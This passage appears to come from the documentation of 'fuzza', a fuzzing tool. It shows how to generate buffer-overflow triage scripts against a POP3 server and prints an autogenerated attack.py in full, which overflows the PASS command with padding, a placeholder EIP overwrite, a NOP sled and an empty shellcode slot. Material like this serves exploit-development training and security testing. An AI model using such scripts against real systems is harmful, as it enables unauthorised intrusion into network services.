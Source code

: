 #### Generate triaging scripts

Now that you know the application is potentially vulnerable at or before 2700 bytes, you will have
to try to replicate and triage the buffer overflow. In order to do so, you can use `fuzza` to
automatically generate triaging scripts based on your current arguments and findings.

Use the same arguments as before, add the initial length of 2700 bytes (`-l 2700`) and specify
an output directory (`-g <path>`):
```bash
$ fuzza -i ':.*OK POP3.*,USER test:.*test welcome.*' -p 'PASS ' -e ':.*,QUIT:' -l 2700 -g out/ mail.example.tld 110
```
`fuzza` will then generate three files in `out/` directory based on your command line arguments:

1. `attack.py`  - used to replicate and triage buffer overflow
2. `pattern.py` - used to find offset for EIP
3. `badchars.py` - used to find any bad characters for the exploit shellcode

Based on the above specified command line arguments, the triaging scripts will look as follows:

**`attack.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_total    = 2700                # Start at len_overflow and try out how much can be overwritten
len_overflow = 2670                # Use pattern_create.rb and pattern_offset.rb to find exact offset
len_nop_sled = 16                  # Add nops if you need to encode your shellcode
eip          = "\x42\x42\x42\x42"  # Change this (Keep in mind to put address in reverse order)
shellcode    = ""

padding = "C"*(len_total - len_overflow - len(str(eip)) - len_nop_sled - len(shellcode))
buffer  = "A"*len_overflow + eip + "\x90"*len_nop_sled + shellcode + padding

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test' + '\r\n'))
    s.recv(1024)
    s.send(str2b('PASS ' + buffer + '' + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT' + '\r\n'))
    print('done')
except:
    print('Could not connect')
```
